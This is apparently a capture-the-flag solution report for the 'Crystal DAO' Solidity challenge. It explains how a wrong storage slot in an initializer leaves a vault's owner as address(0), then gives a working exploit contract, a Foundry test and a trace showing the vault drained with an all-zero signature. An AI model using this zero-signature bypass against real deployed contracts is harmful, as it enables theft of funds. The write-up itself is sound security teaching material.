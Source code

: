 # Challenge 7: Crystal DAO - Solution Report

## Problem Overview

### Contract Summary

The Crystal DAO challenge involves two main contracts:

1. `FactoryDao`: A factory contract that deploys new `DaoVaultImplementation` contracts using the ERC1167 minimal proxy pattern.

2. `DaoVaultImplementation`: The implementation contract for DAO vaults, which includes:
   - `initialize(address _owner)`: Initializes the vault with an owner.
   - `execWithSignature(...)`: Executes transactions with a valid signature from the owner.
   - `getDomainSeparator()`: Returns the EIP712 domain separator.

The `DaoVaultImplementation` uses EIP712 for typed data signing and implements an upgradeable pattern.

### Initial Setup

- A `FactoryDao` contract is deployed.
- A new vault is created using `factory.newWallet()` with `daoManager` as the intended owner.
- The vault is funded with 100 ether.

### Success Criteria

- The `daoManager`'s balance should be 100 ether after the attack.

## Vulnerability

The primary vulnerability in this challenge lies in the `initialize` function of the `DaoVaultImplementation` contract:

```solidity
function initialize(address _owner) public initializer {
    // EIP712 init: name DaoWallet, version 1.0
    __EIP712_init("DaoWallet", "1.0");

    // postInit: set owner with gas optimizations
    assembly {
        sstore(0, _owner)
    }
}
```

The vulnerability stems from two key issues:

1. Incorrect Storage Slot Usage: The inline assembly code `sstore(0, _owner)` attempts to store the owner address in storage slot 0. However, according to the contract's storage layout, the `owner` variable is actually located in slot 53. This mismatch causes the owner to be set incorrectly.

```
forge inspect DaoVaultImplementation storage-layout --pretty
```

```
| Name           | Type                        | Slot | Offset | Bytes | Contract                                               |
|----------------|-----------------------------|------|--------|-------|--------------------------------------------------------|
| _initialized   | uint8                       | 0    | 0      | 1     | src/7_crystalDAO/crystalDAO.sol:DaoVaultImplementation |
| _initializing  | bool                        | 0    | 1      | 1     | src/7_crystalDAO/crystalDAO.sol:DaoVaultImplementation |
| _hashedName    | bytes32                     | 1    | 0      | 32    | src/7_crystalDAO/crystalDAO.sol:DaoVaultImplementation |
| _hashedVersion | bytes32                     | 2    | 0      | 32    | src/7_crystalDAO/crystalDAO.sol:DaoVaultImplementation |
| _name          | string                      | 3    | 0      | 32    | src/7_crystalDAO/crystalDAO.sol:DaoVaultImplementation |
| _version       | string                      | 4    | 0      | 32    | src/7_crystalDAO/crystalDAO.sol:DaoVaultImplementation |
| __gap          | uint256[48]                 | 5    | 0      | 1536  | src/7_crystalDAO/crystalDAO.sol:DaoVaultImplementation |
| owner          | address                     | 53   | 0      | 20    | src/7_crystalDAO/crystalDAO.sol:DaoVaultImplementation |
| usedSigs       | mapping(bytes32 => bool)    | 54   | 0      | 32    | src/7_crystalDAO/crystalDAO.sol:DaoVaultImplementation |
| nonces         | mapping(address => uint256) | 55   | 0      | 32    | src/7_crystalDAO/crystalDAO.sol:DaoVaultImplementation |
```

2. Storage Collision: Storage slot 0 is already in use by the `Initializable` contract (a base contract of `DaoVaultImplementation`) for its `_initialized` and `_initializing` variables. Writing to this slot may interfere with the initialization mechanism.

As a result of these issues, the `owner` variable is never properly set and remains `address(0)`. This effectively leaves the vault without a valid owner, making it vulnerable to unauthorized access.

## Attack Process

The attack exploits the fact that the vault's owner is incorrectly set to `address(0)`. The process involves the following steps:

1. Deploy Attack Contract:
   Create a contract (`DaoVaultAttack`) that interacts with the vulnerable vault.

2. Prepare Zero Signature:
   Since the owner is `address(0)`, we can bypass the signature check by using a signature that resolves to the zero address. This is achieved by setting:

   - `v = 0`
   - `r = 0`
   - `s = 0`

3. Craft Execution Parameters:
   Prepare the parameters for the `execWithSignature` function:

   - `target`: Set to `daoManager` (the intended recipient of the funds)
   - `amount`: Set to 100 ether (the full balance of the vault)
   - `execOrder`: Empty bytes (as we're performing a simple value transfer)
   - `deadline`: Set to a future timestamp

4. Execute Attack:
   Call the `execWithSignature` function on the vault through the attack contract:

   - The zero signature will pass the ownership check as it resolves to `address(0)`
   - The function will execute the transaction, transferring 100 ether to the `daoManager`

5. Verify Success:
   Check the balance of the `daoManager` to confirm it has received 100 ether

This attack succeeds because the `execWithSignature` function's ownership check compares the recovered signer (which is `address(0)` in this case) with the vault's owner (which is also `address(0)` due to the initialization vulnerability). As a result, the check passes, allowing the attacker to execute arbitrary transactions on behalf of the vault.

## Proof of Concept (PoC)

### Core Implementation

The attack is implemented using a `DaoVaultAttack` contract and modifications to the `testHack` function in the `Challenge7Test` contract.

1. DaoVaultAttack Contract:

```solidity
contract DaoVaultAttack {
    IDaoVault public vault;

    constructor(address _vault) {
        vault = IDaoVault(_vault);
    }

    function attack(address target, uint256 amount) external {
        uint8 v = 0;
        bytes32 r = 0;
        bytes32 s = 0;
        bytes memory execOrder = ""; // Empty bytes for a simple value transfer
        uint256 deadline = block.timestamp + 1 hours;

        vault.execWithSignature(v, r, s, target, amount, execOrder, deadline);
    }

    receive() external payable {}
}
```

This contract encapsulates the attack logic, preparing the zero signature and calling the vulnerable `execWithSignature` function.

2. Modified testHack Function:

```solidity
function testHack() public {
    vm.startPrank(whitehat, whitehat);

    // Deploy the attack contract
    DaoVaultAttack attackContract = new DaoVaultAttack(address(vault));

    // Perform the attack
    attackContract.attack(daoManager, 100 ether);

    vm.stopPrank();

    assertEq(daoManager.balance, 100 ether, "The Dao manager's balance should be 100 ether");
}
```

This function deploys the attack contract and executes the attack, transferring 100 ether to the `daoManager`.

### Running Result

```
Ran 1 test for test/Challenge7.t.sol:Challenge7Test
[PASS] testHack() (gas: 282172)
Traces:
  [282172] Challenge7Test::testHack()
    ├─ [0] VM::startPrank(whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA], whitehat: [0x1Fdb41DEB6100767eb8d3Dc7003D761f6a4b55cA])
    │   └─ ← [Return]
    ├─ [140514] → new DaoVaultAttack@0x987B1cb2d9309b71A0390B8e70fA90A865dC4E27
    │   └─ ← [Return] 590 bytes of code
    ├─ [98885] DaoVaultAttack::attack(daoManager: [0x58D433d8b3ebB66937EFDAEA3D9f74247e6D9993], 100000000000000000000 [1e20])
    │   ├─ [95144] 0x037eDa3aDB1198021A9b2e88C22B464fD38db3f3::execWithSignature(0, 0x0000000000000000000000000000000000000000000000000000000000000000, 0x0000000000000000000000000000000000000000000000000000000000000000, daoManager: [0x58D433d8b3ebB66937EFDAEA3D9f74247e6D9993], 100000000000000000000 [1e20], 0x, 3601)
    │   │   ├─ [92433] DaoVaultImplementation::execWithSignature(0, 0x0000000000000000000000000000000000000000000000000000000000000000, 0x0000000000000000000000000000000000000000000000000000000000000000, daoManager: [0x58D433d8b3ebB66937EFDAEA3D9f74247e6D9993], 100000000000000000000 [1e20], 0x, 3601) [delegatecall]
    │   │   │   ├─ [3000] PRECOMPILES::ecrecover(0xd5a61a827bb7fe353fb1afd2b261be9909fb524edc91442a7b5d6c008de0f0b9, 0, 0, 0) [staticcall]
    │   │   │   │   └─ ← [Return]
    │   │   │   ├─ [0] daoManager::fallback{value: 100000000000000000000}()
    │   │   │   │   └─ ← [Stop]
    │   │   │   └─ ← [Stop]
    │   │   └─ ← [Return]
    │   └─ ← [Stop]
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    └─ ← [Stop]
```
